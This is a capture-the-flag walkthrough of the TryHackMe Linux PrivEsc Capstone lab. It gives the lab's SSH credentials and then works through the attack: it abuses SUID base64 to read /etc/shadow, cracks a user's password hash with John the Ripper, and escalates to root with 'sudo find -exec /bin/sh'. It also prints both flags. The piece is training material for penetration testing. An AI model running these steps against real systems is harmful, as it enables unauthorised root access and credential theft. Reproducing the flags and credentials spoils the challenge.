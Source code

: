 # Linux PrivEsc Capstone

URL: https://tryhackme.com/room/linprivesc

Description: TryHackMe Linux PrivEsc challenge which features Horizontal and Vertical Priviledge 

Tags: GTFObins, John the Ripper, SSH, SUID, Sudo, etc-shadow, find

# Description

By now you have a fairly good understanding of the main privilege escalation vectors on Linux and this challenge should be fairly easy.

You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root. We designed this room to help you build a thorough methodology for Linux 
privilege escalation that will be very useful in exams such as OSCP and your penetration testing engagements.

Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

You can access the target machine over your browser or use the SSH credentials below.

- Username: leonard
- Password: Penny123

# Attack Chain

```bash
# Setup
export ip=10.10.76.192

# Horizontal PrivEsc
sudo ssh leonard@$ip #Penny123 

find / -type f -perm -04000 -ls 2>/dev/null
base64 /etc/shadow | base64 --decode

printf 'missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::' >> missy_shadow.txt
printf 'missy:x:1001:1001::/home/missy:/bin/bash' >> missy_passwd.txt
unshadow missy_passwd.txt missy_shadow.txt >> missy_unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt missy_unshadow.txt

exit
# Vertical PrivEsc (under missy account)
sudo ssh missy@$ip # Password1

sudo -l 
sudo find . -exec /bin/sh \; -quit

whoami #root

# Flags
find . -name flag*.txt
cat /home/missy/Documents/flag1.txt
cat /home/rootflag/flag2.txt # requires root

```

---

# Detailed solution

## Initial approach

- Tried sudo -l but no output
- Tried getcap -r / but nothing exploitable
- Tried Accessing /etc/shadow but was unable to access.
- Then I found an entry using SUID

# Finding SUID capable files

`find / -type f -perm -04000 -ls 2>/dev/null`

![Untitled](Linux%20PrivEsc%20Capstone/Untitled.png)

## Base64

[https://gtfobins.github.io/gtfobins/base64/#suid](https://gtfobins.github.io/gtfobins/base64/#suid)

base64 will allow reading of files and was able to read /etc/shadow `base64 /etc/shadow | base64 --decode`

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%201.png)

# Brute-force Credential

Unshadowed the files for `missy` and perform password bruteforce using the John the Ripper

```bash
printf 'missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::' >> missy_shadow.txt
printf 'missy:x:1001:1001::/home/missy:/bin/bash' >> missy_passwd.txt

unshadow missy_passwd.txt missy_shadow.txt >> missy_unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt missy_unshadow.txt
```

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%202.png)

Cracked account - `missy:Password1`

Afterwards I tried browsing for flags then try to gain root access using the account of `missy`

# Flag 1

Just browsing the directories under missy and was able to find the flag1.txt in the `Documents`

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%203.png)

Flag 1 **:** `THM-42828719920544`

# Root Access

I was able to find a sudo permission using `sudo -l` and was able to gain root access using `find` command [https://gtfobins.github.io/gtfobins/find/#sudo](https://gtfobins.github.io/gtfobins/find/#sudo)

command: ``sudo find . -exec /bin/sh \; -quit``

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%204.png)

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%205.png)

I am now root :)

# Flag 2

After getting root, I tried to look for the flag under root folder. Then looked under the whole drive. The flag2 is located at `/home/rootflag/flag2.txt`

![Untitled](Linux%20PrivEsc%20Capstone/Untitled%206.png)

Flag 2: `THM-168824782390238`